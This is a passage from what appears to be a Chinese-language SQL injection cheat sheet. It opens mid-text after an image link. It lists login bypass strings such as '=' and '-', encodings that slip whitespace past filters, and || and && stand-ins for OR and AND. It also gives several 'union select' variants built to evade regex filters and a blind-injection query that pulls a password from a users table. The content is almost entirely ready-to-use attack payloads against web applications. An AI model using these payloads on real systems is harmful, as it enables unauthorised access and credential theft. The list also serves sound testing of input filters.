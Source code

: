 以上的语句都是同样的效果

**4、认证绕过**

绕过语句：`'='`

```
select data from users where name="="
select data from users where flase=" 
select data from users where 0=0
```

绕过语句：`'-'`

```
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0
```

# 0x02 关键字过滤

***

空格

过滤代码`/\s/`

```
%20, %09, %0a, %0b, %0c, %0d, %a0
```

关键字`OR，AND`

过滤代码`/\sor\s/i,/\sand\s/i`

```
'||1='1     #or
'='
'&&1='1     #and
```

关键字`union select`

过滤代码`/union\s+select/i`

```
'and(true)like(false)union(select(pass)from(users))#
'union [all|distinct] select pass from users#
'union%a0select pass from users#
'union/*!select*/pass from users#
/vuln.php?id=1 union/*&sort=*/select pass from users-- -
```

如果单独过滤union,使用盲注来获取数据

```
'and(select pass from users limit 1)='secret
```
